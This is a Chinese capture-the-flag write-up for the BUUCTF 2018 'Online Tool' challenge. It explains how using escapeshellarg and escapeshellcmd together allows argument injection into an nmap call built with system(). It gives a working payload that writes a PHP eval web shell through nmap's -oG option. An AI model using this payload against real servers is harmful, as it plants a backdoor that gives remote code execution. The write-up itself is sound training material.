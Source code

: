 # [BUUCTF 2018]Online Tool

## 知识点

`php代码审计`

`escapeshellarg`

`escapeshellcmd`

## 解题

`HTTP_X_FORWARDED_FOR`和`REMOTE_ADDR`都是服务器用来获取`ip`用的，在本题没什么用。下面的代码才是重点。我们需要`host`传参，再经过下面两个函数的处理，最后拼接字符串执行`system`系统函数。`mkdir`函数创建新目录。

现在我们面临的有两个难题，第一个是`escapeshellarg()`和`escapeshellcmd()`函数的绕过，第二个是如何构造命令执行`payload`。

### 函数的绕过

回看上面的代码，如果没有那两个函数的处理，这题就变得简单多了，我们可以执行多参数命令，用`||`或者`;`将前面分割，后面写入我们想要执行的命令。而`escapeshellcmd()`就是阻止多参数命令执行的，因为一整个传参的内容都被当做一串字符串了。虽然命令语句只能执行一个，但是可以指定不同参数，比如

```php
$username = 'myuser1 myuser2';
system('groups '.$username);
=>
//myuser1 : myuser1 adm cdrom sudo
//myuser2 : myuser2 adm cdrom sudo
```

但是在escapeshellarg()函数处理后，就会被当做一个参数来执行命令了。（相关文章：[利用/绕过 PHP escapeshellarg/escapeshellcmd函数 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/107336)）

但它们组合使用时就会造成漏洞，就借用一个大佬的例子，通俗易懂。

```cobol
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

（相关文章链接：[PHP escapeshellarg()+escapeshellcmd() 之殇 (seebug.org)](https://paper.seebug.org/164/)）

也就是说，escapeshellcmd()函数转义了用于转义单引号的斜杠，导致这个单引号与后面的单引号形成了空白连接符就能执行命令了。

### `nmap`构造命令

`system`函数里拼接了`nmap`的指令字符串。`nmap`中的`-oG`参数可以将代码与命令写到文件中，比如`nmap <?php phpinfo();?> -oG 1.php`，就是将这个`phpinfo();`语句写在了`1.php`里内了。

### 构造`payload`

`payload`构造如下

最后需要有`空格`

```php
?host='<?php eval($_POST[1]);?> -oG 1.php '
```

![](./img/[BUUCTF 2018]Online Tool-1.png)

写入木马

![](./img/[BUUCTF 2018]Online Tool-2.png)

[参考文章](https://blog.csdn.net/m0_62422842/article/details/125451022)